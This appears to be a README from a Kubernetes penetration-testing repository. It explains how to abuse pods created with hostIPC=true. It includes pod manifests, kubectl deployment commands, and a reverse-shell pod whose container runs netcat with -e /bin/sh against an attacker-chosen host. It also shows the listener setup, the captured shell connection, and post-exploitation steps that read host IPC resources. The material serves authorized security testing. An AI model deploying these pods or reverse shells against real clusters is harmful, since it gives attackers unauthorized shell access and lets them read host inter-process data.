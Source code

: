 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the `ipcs` command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semaphores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostipc
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
  ```
[pod-hostipc.yaml](pod-hostipc.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostipc.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc/pod-hostipc.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostipc--revshell
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
```
[pod-hostipc-revshell.yaml](pod-hostipc-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostipc/pod-hostipc-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

Reference: https://opensource.com/article/20/1/inter-process-communication-linux



#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

